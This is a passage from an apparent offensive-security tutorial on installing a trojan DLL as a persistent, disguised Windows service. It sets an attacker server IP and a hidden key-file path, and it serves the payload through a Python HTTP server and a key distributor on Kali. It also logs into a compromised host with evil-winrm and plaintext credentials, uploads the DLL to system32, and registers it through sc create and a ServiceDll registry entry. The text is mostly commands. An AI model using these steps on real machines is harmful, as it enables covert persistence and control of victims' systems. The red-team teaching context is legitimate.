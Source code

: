 ![](http://news.baycode.eu/wp-content/uploads/2023/11/1-1.png)

This code will serve as a basic Service Handler, and there's no need to insert the payload here, as the payload will execute during the `DLL_ATTACH` event. The payload will be executed at each reboot with this approach.

Prior to proceeding, it is crucial to adjust the IP address to correspond with the `Key Distribution` server and specify a `keyFile` for storing the file. We will choose to place the key in the hidden `ProgramData` directory, which is reserved for shared program data.

Revise the IP, path, injected process, and compile the code.
```
const char* keyFile = "C:\\ProgramData\\node.cache";
const char* serverAddress = "10.10.24.9";
```

We should now package the Key Distribution script and the .dll, and transfer them to Kali using a Python HTTP server.
```
python -m http.server
```

![](http://news.baycode.eu/wp-content/uploads/2023/11/2-1.png)

The package can now be downloaded using the browser.

![](http://news.baycode.eu/wp-content/uploads/2023/11/1c.png)

Now, it's time to execute the key distributor on Kali. The trojan will download decryption key over the tunnel we've set up earlier.
```
python ./key_distributor.py
```

![](http://news.baycode.eu/wp-content/uploads/2023/11/2b.png)

Following that, we will establish a connection to the compromised machine over WINRM and upload the .dll to `C:\Windows\system32\nodeapi.dll`.

```
evil-winrm -i 10.10.24.100 -u helpdesk -p G3t_somehelp_br0

*Evil-WinRM* PS C:\Users\helpdesk\Documents> upload nodeapi.dll C:\Windows\system32\nodeapi.dll
```
![](http://news.baycode.eu/wp-content/uploads/2023/11/3-1.png)

Next, we'll establish an RDP connection to the target machine, create a new service launching svchost.exe, and modify the registry to indicate that the service employs a ServiceDll, directing it to our .DLL file.

```
xfreerdp /u:helpdesk /p:G3t_somehelp_br0 /v:10.10.24.100

sc create NodeApi binPath= "C:\Windows\System32\svchost.exe -k DcomLaunch" type= share start= auto DisplayName= "Windows Node Service"

reg add HKLM\SYSTEM\CurrentControlSet\services\NodeApi\Parameters /v ServiceDll /t REG_EXPAND_SZ /d C:\Windows\system32\nodeapi.dll /f

```
